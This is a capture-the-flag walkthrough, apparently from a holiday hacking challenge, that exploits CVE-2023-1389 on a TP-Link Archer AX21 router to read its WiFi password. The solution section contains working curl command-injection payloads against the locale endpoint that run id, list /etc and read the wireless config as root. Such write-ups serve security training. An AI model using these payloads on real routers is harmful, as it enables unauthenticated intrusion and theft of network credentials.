

## Overview


Drop by **JJ's 24-7** for a network rescue and help restore the holiday cheer. What is the WiFi password found in the router's config?


!!! quote "JJ"
	Hello! I'm JJ. I like rock, metal, and punk music. That's all I have to say about that.
	
	I accept BTC. 
	
	Skeletor is my hero!
<div style="clear: both;"></div>

!!! quote "JJ"
	Alright then. Those bloody gnomes have proper messed about with the neighborhood's wifi - changed the admin password, probably mucked up all the settings, the lot.

	Now I can't get online and it's doing me head in, innit?

	We own this router, so we're just taking back what's ours, yeah?

	You reckon you can help me hack past whatever chaos these little blighters left behind?

	What is the WiFi password found in the router's config?
	
## Hints
??? example "UCI"
	You know...if my memory serves me correctly...there was a lot of fuss going on about a UCI (I forgot the exact term...) for that router.
	
??? example "Version"
	I can't believe nobody created a backup account on our main router...the only thing I can think of is to check the version number of the router to see if there are any...ways around it...

## Solution

### Firmware Freebie

First things first: let's see what we're up against. Loading up the router's web interface greets us with a login page and absolutely zero chance of guessing whatever password the gnomes cooked up:



But wait! The gnomes may have locked us out, but they left something useful at the bottom of the page:

- Firmware Version: `1.1.4 Build 20230219 rel.69802`

- Hardware Version: `Archer AX21 v2.0`

Nothing says "please exploit me" quite like proudly displaying your exact firmware version. A *classic* security oversight. Let's see if this particular build has any... creative entry points.

---

### CVE-2023-1389: The Double Tap Exploit

A quick search for "Archer AX21 v2.0 vulnerability" and boom! **CVE-2023-1389** lights up like a Christmas tree! An unauthenticated command injection vulnerability in the router's UCI (Unified Configuration Interface) locale endpoint. The "UCI" from the hints!

The [vulnerability was disclosed by Tenable Research](https://www.tenable.com/security/research/tra-2023-11) and lives at `/cgi-bin/luci/;stok=/locale` where it exploits how the router processes locale settings. The country parameter? Completely unvalidated. We can inject commands and the router will happily execute them without asking for credentials.

But here's the quirky bit: this CVE requires sending the payload twice. The first request sets the value, the second request executes it! According to the advisory, the country parameter gets used in a `popen()` call that runs as root, but only after being set in an initial request. 

---

### Confirming Root Access

Before we go hunting for WiFi passwords, let's make sure this actually works. We'll start simple with the id command to see what user we're running as:

```bash
curl "https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=\$(id)" -k
curl "https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=\$(id)" -k
```

Copy both lines: the first execution sets the payload, the second one actually runs it:


Wait, `root`?! We're running as `root`! Even better than expected! We've got full access to everything on this router!

### Hunting Through the Config Directory

Now that we've confirmed command injection works (and we're `root`!), time to poke around. OpenWRT routers typically stash their configs in `/etc/config/`, but let's not assume, let's look:

```bash
curl "https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=\$(ls%20/etc)" -k
curl "https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=\$(ls%20/etc)" -k
```


The `config/` directory is right there! Exactly where we need to be.

### Locating the Wireless File

Let's see what goodies are hiding in the `config` directory:

```bash
curl "https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=\$(ls%20/etc/config)" -k
curl "https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=\$(ls%20/etc/config)" -k
```


Bingo! The `wireless` file. If the WiFi password is anywhere, it's in there!

### Dumping the Password

Time to see what the gnomes were trying to hide:

```bash
curl "https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=\$(cat%20/etc/config/wireless)" -k
curl "https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=\$(cat%20/etc/config/wireless)" -k
```

The second request dumps the full wireless configuration in UCI format:


Sitting right there in plain text! The config shows two networks (`2.4GHz` and `5GHz` radios) both using the same password:

!!! success "The Password!"
	SprinklesAndPackets2025!

Glooory! JJ can finally get back online, and the neighborhood WiFi is restored. The gnomes changed the admin password, but they didn't count on CVE-2023-1389 giving us unauthenticated root access anyway!


<div class="nav-buttons">
  <a href="/objectives/o14" class="nav-button nav-left">← IDORable Bistro</a>
  <a href="/objectives/o16" class="nav-button nav-right">Next: Rogue Gnome Identity Provider →</a>
</div>